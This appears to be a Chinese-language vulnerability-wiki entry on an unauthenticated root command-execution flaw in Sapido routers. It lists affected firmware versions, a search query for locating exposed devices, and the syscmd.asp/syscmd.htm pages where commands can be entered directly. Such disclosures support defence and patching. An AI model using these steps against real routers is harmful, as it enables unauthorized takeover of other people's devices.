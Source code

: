 # Sapido 多款路由器 远程命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

<a-checkbox checked>BR270n-v2.1.03</a-checkbox></br>

<a-checkbox checked>BRC76n-v2.1.03</a-checkbox></br>

<a-checkbox checked>GR297-v2.1.3</a-checkbox></br>

<a-checkbox checked>RB1732-v2.0.43</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Sapido-路由器"</a-checkbox></br>

## 漏洞复现

固件中存在一个asp文件为 `syscmd.asp` 存在命令执行



![img](/assets/PeiQi-Wiki/img/sa-1.png)



访问目标:



```plain
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```



![img](/assets/PeiQi-Wiki/img/sa-2.png)



直接输入就可以命令执行了